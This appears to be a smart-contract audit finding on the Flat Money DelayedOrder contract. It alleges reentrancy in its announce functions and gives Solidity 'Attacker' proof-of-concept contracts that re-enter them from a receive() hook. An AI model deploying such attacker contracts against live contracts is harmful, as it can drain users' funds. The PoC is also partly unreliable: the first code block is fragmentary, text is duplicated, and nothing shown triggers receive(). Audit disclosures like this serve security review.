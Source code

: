 Glorious Pebble Okapi

high

# Potential reentrancy attacks in `announceLeverageAdjust`,`announceLeverageClose`,`announceLeverageOpen`,`announceStableDeposit`,`announceStableWithdraw`and `executeOrder ` due to state changes after external calls which may lead to loss of funds

## Summary
Each function is susceptible to reentrancy attacks due to state changes after external calls. For example, when making external calls such as token transfers, executing vault functions, or calling other modules, state variables (_announcedOrder) are being written or manipulated afterward

## Vulnerability Detail 
 State Manipulation: The state of the contract (`_announcedOrder`) can be manipulated after making external calls. This allows potential attackers to repeatedly manipulate the state of the contract in undesirable ways, potentially disrupting the contract's proper functioning.

## Impact
State Manipulation: The state of the contract (`_announcedOrder`) can be manipulated after making external calls. This allows potential attackers to repeatedly manipulate the state of the contract in undesirable ways, potentially disrupting the contract's proper functioning.

    Repeated Calls: Since the functions make external calls before modifying the state, attackers may exploit this by re-entering the function through the external call (e.g., token transfer or function execution in a different contract) and calling it again.

## Code Snippet
https://github.com/sherlock-audit/2024-03-flat-money-fix-review-contest/blob/main/flatcoin-v1/src/DelayedOrder.sol#L68

https://github.com/sherlock-audit/2024-03-flat-money-fix-review-contest/blob/main/flatcoin-v1/src/DelayedOrder.sol#L161

https://github.com/sherlock-audit/2024-03-flat-money-fix-review-contest/blob/main/flatcoin-v1/src/DelayedOrder.sol#L218

https://github.com/sherlock-audit/2024-03-flat-money-fix-review-contest/blob/main/flatcoin-v1/src/DelayedOrder.sol#L321
## POC 

```solidity

    function exploitLeverageClose(uint256 tokenId, int256 sizeDelta, uint256 fillPrice, uint256 keeperFee) external {
        // Initialize the reentrancy flag
        reenter = true;

        // Call the vulnerable function
        delayedOrder.announceLeverageClose(tokenId, sizeDelta, fillPrice, keeperFee);

        // Reset the reentrancy flag
        reenter = false;
    }

    // Receive function for receiving ETH
    receive() external payable {
        if (reenter) {
            // Re-enter the vulnerable function
            delayedOrder.announceLeverageClose(0, 0, 0, 0);
        }
    }
}
```

```solidity
pragma solidity ^0.8.0;

import "src/DelayedOrder.sol";

contract Attacker {
    DelayedOrder public delayedOrder;
    bool reenter;

    constructor(address _delayedOrderAddress) {
        delayedOrder = DelayedOrder(_delayedOrderAddress);
    }

    function exploitLeverageOpen(uint256 tokenId, int256 sizeDelta, uint256 fillPrice, uint256 keeperFee) external {
        reenter = true;

        // Call the vulnerable function
        delayedOrder.announceLeverageOpen(tokenId, sizeDelta, fillPrice, keeperFee);

        // Reset the reentrancy flag
        reenter = false;
    }

    receive() external payable {
        if (reenter) {
            // Re-enter the vulnerable function
            delayedOrder.announceLeverageOpen(0, 0, 0, 0);
        }
    }
}

```
```solidity
pragma solidity ^0.8.0;

import "src/DelayedOrder.sol";

contract Attacker {
    DelayedOrder public delayedOrder;
    bool reenter;

    constructor(address _delayedOrderAddress) {
        delayedOrder = DelayedOrder(_delayedOrderAddress);
    }

    function exploitStableDeposit(uint256 tokenId, uint256 amount, uint256 keeperFee) external {
        reenter = true;

        // Call the vulnerable function
        delayedOrder.announceStableDeposit(tokenId, amount, keeperFee);

        // Reset the reentrancy flag
        reenter = false;
    }

    receive() external payable {
        if (reenter) {
            // Re-enter the vulnerable function
            delayedOrder.announceStableDeposit(0, 0, 0);
        }
    }
}

```

```solidity
pragma solidity ^0.8.0;

import "src/DelayedOrder.sol";

contract Attacker {
    DelayedOrder public delayedOrder;
    bool reenter;

    constructor(address _delayedOrderAddress) {
        delayedOrder = DelayedOrder(_delayedOrderAddress);
    }

    function exploitStableWithdraw(uint256 tokenId, uint256 amount, uint256 keeperFee) external {
        reenter = true;

        // Call the vulnerable function
        delayedOrder.announceStableWithdraw(tokenId, amount, keeperFee);

        // Reset the reentrancy flag
        reenter = false;
    }

    receive() external payable {
        if (reenter) {
            // Re-enter the vulnerable function
            delayedOrder.announceStableWithdraw(0, 0, 0);
        }
    }
}

```

## Tool used
Slither-Analyzer
Manual Review

## Recommendation
Follow Checks-Effects-Interactions Pattern: Make state changes before making external calls.
